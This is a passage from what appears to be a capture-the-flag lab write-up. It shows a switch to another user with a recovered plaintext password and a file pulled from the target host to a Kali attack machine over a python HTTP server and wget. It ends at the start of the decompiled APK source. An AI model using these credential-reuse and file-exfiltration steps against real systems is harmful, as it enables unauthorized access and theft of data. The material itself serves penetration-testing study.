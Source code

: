 ```bash
www-data@school:/var/www/html/management/application/config$ su msander
su msander
Password: greatteacher123

msander@school:/var/www/html/management/application/config$ whoami
whoami
msander

```

## Enumerate the "grade-app.apk" file

Transfer _grade-app.apk_ to attack machine

```bash
msander@school:/home/emiller/development$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.45.217 - - [06/Dec/2023 04:05:57] "GET /grade-app.apk HTTP/1.1" 200 -

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/educated]
└─$ wget http://192.168.173.13:8000/grade-app.apk
--2023-12-05 23:05:57--  http://192.168.173.13:8000/grade-app.apk
Connecting to 192.168.173.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4755263 (4.5M) [application/vnd.android.package-archive]
Saving to: ‘grade-app.apk’

grade-app.apk             100%[=====================================>]   4.53M  3.26MB/s    in 1.4s

2023-12-05 23:05:58 (3.26 MB/s) - ‘grade-app.apk’ saved [4755263/4755263]



```

Install jadx-gui

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/educated]
└─$ jadx-gui
Command 'jadx-gui' not found, but can be installed with:
sudo apt install jadx

```

Analyze the .apk file

```bash
package com.msander.myapplication;

import android.content.Intent;
import android.os.Bundle;
import android.view.View;
import android.widget.EditText;
import android.widget.Toast;
import androidx.appcompat.app.AppCompatActivity;

/* loaded from: classes3.dex */
public class MainActivity extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
```